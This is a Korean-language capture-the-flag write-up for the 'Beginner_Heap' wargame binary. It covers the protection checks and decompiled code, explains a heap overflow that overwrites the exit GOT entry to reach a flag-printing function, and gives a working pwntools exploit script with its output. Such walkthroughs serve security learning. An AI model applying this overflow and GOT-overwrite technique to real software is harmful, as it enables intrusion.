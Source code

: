 # Beginner_Heap

```c
kimdong@ubuntu  ~/Wargame/200~250  file beginner_heap.bin
beginner_heap.bin: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, inf, stripped

kimdong@ubuntu  ~/Wargame/200~250  checksec beginner_heap.bin
[*] '/home/kimdong/Wargame/200~250/beginner_heap.bin'
   Arch:     amd64-64-little
   RELRO:    Partial RELRO
   Stack:    No canary found
   NX:       NX enabled
   PIE:      No PIE (0x400000)
```
이번 바이너리파일은 `bin`파일로 64-bit로 NX-bit가 설정되어있다.<br>

```c
kimdong@ubuntu  ~/Wargame/200~250  ./beginner_heap.bin
1234
1234
```
실행시켜보면, 사용자의 입력값을 2번에 걸쳐서 받고 종료되는 형식이다.<br>

```c
void __fastcall __noreturn main(__int64 a1, char **a2, char **a3)
{
  void *v3; // [rsp+10h] [rbp-1020h]
  void *v4; // [rsp+18h] [rbp-1018h]
  char s; // [rsp+20h] [rbp-1010h]
  unsigned __int64 v6; // [rsp+1028h] [rbp-8h]

  v6 = __readfsqword(0x28u);
  v3 = malloc(0x10uLL);
  *(_DWORD *)v3 = 1;
  *((_QWORD *)v3 + 1) = malloc(8uLL);
  v4 = malloc(0x10uLL);
  *(_DWORD *)v4 = 2;
  *((_QWORD *)v4 + 1) = malloc(8uLL);
  fgets(&s, 4096, stdin);
  strcpy(*((char **)v3 + 1), &s);
  fgets(&s, 4096, stdin);
  strcpy(*((char **)v4 + 1), &s);
  exit(0);
}
```
main문은 다음과 같은데, v3에 16byte를 할당시켜주고, v3+1에 8바이트를 할당시킨다.<br>

또한, v4에도 16byte를 할당시켜주고, v4+1에 8바이트를 할당시킨다.<br>

그 후에, `fgets`를 통해 사용자 입력값을 받는데, 4096byte를 받으므로, `Heap Overflow`를 사용할수 있다.<br>

NX-bit가 설정되어있으므로, 덮어씌울 함수를 찾아보자.<br>

```c
void __noreturn sub_400826()
{
  char *lineptr; // [rsp+0h] [rbp-20h]
  size_t n; // [rsp+8h] [rbp-18h]
  FILE *stream; // [rsp+10h] [rbp-10h]
  unsigned __int64 v3; // [rsp+18h] [rbp-8h]

  v3 = __readfsqword(0x28u);
  lineptr = 0LL;
  n = 0LL;
  stream = fopen("flag", "r");
  getline(&lineptr, &n, stream);
  puts(lineptr);
  fflush(stdout);
  free(lineptr);
  _exit(1);
}
```
ida로 분석하던중 다음과 같은 함수가 있었다.<br>

flag를 띄워주는 함수로 보인다.<br>

위 함수의 주소는 `0x400826`이다.<br>

`strcpy`로 인자를 받기때문에, `v4+1`의 주소에 `Exit()`함수의 주소,그리고 문자열에 `0x400826`을 입력해주면, Got주소를 `sub_400826`의 함수 주소로 바꿀 수 있다.<br>

따라서, `v3+1`에는 8Byte(Body) + 32Byte(Header)를 계산하여 총 40Byte의 dummy값을 준다.<br>

그리고, `v4+1` 주소값에 Exit()함수의 Got주소를 주고, `sub_400826`의 주소를 페이로드로 주면 된다.<br>

---

## Exploit Code

```c

from pwn import *
e = ELF("./beginner_heap.bin")
p = remote("ctf.j0n9hyun.xyz",3016)
exit_got = e.got['exit']

payload = "A"*40
payload += p64(exit_got)
payload2 = p64(0x400826)

p.sendline(payload)
p.sendline(payload2)
p.interactive()
```

```c
kimdong@ubuntu  ~/Wargame/200~250  python b_heap_ex.py
[*] '/home/kimdong/Wargame/200~250/beginner_heap.bin'
   Arch:     amd64-64-little
   RELRO:    Partial RELRO
   Stack:    No canary found
   NX:       NX enabled
   PIE:      No PIE (0x400000)
[+] Opening connection to ctf.j0n9hyun.xyz on port 3016: Done
0x601068
[*] Switching to interactive mode
HackCTF{}

[*] Got EOF while reading in interactive
$  
```

## END !
